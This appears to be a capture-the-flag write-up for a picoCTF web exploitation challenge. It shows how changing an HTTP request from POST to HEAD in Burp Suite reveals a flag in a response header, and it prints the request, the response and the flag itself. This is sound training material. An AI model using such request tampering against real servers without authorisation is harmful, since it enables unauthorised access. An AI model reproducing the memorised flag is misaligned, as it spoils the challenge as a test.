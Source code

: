 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:45028/

# Solution
- Hint: Check out tools like Burpsuite to modify your requests and look at the responses
- I use burp suite to capture requests
- I change the method "POST" to "HEAD" and then click send
```
HEAD /index.php? HTTP/1.1
```
- Results:
```
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_775f2530}
Content-type: text/html; charset=UTF-8
```

> Flag :**picoCTF{r3j3ct_th3_du4l1ty_775f2530}**